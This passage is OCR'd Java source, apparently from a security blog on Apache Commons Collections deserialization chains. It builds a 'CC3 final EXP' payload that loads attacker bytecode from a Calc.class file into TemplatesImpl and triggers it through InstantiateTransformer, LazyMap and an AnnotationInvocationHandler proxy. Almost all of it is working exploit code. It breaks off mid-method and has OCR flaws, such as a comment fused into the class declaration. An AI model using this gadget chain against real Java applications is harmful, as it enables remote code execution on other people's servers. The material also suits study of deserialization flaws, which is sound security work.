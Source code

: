 
#### CC6 链作为前半部分
```java=
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InstantiateTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.LazyMap;  
  
import javax.xml.transform.Templates;  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Proxy;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
// CC3 链最终 EXPpublic class CC3FinalEXP {  
    public static void main(String[] args) throws Exception  
    {  
        TemplatesImpl templates = new TemplatesImpl();  
 Class templatesClass = templates.getClass();  
 Field nameField = templatesClass.getDeclaredField("_name");  
 nameField.setAccessible(true);  
 nameField.set(templates,"Drunkbaby");  
  
 Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");  
 bytecodesField.setAccessible(true);  
 byte[] evil = Files.readAllBytes(Paths.get("E://Calc.class"));  
 byte[][] codes = {evil};  
 bytecodesField.set(templates,codes);  
  
 Field tfactoryField = templatesClass.getDeclaredField("_tfactory");  
 tfactoryField.setAccessible(true);  
 tfactoryField.set(templates, new TransformerFactoryImpl());  
 //    templates.newTransformer();  
  
 InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},  
 new Object[]{templates});  
 Transformer[] transformers = new Transformer[]{  
                new ConstantTransformer(TrAXFilter.class), // 构造 setValue 的可控参数  
 instantiateTransformer  
        };  
 ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
 HashMap<Object, Object> hashMap = new HashMap<>();  
 Map decorateMap = LazyMap.decorate(hashMap, chainedTransformer);  
  
 Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
 Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);  
 declaredConstructor.setAccessible(true);  
 InvocationHandler invocationHandler = (InvocationHandler) declaredConstructor.newInstance(Override.class, decorateMap);  
  
 Map proxyMap = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader()  
                , new Class[]{Map.class}, invocationHandler);  
 Object o = (InvocationHandler) declaredConstructor.newInstance(Override.class, proxyMap);  
```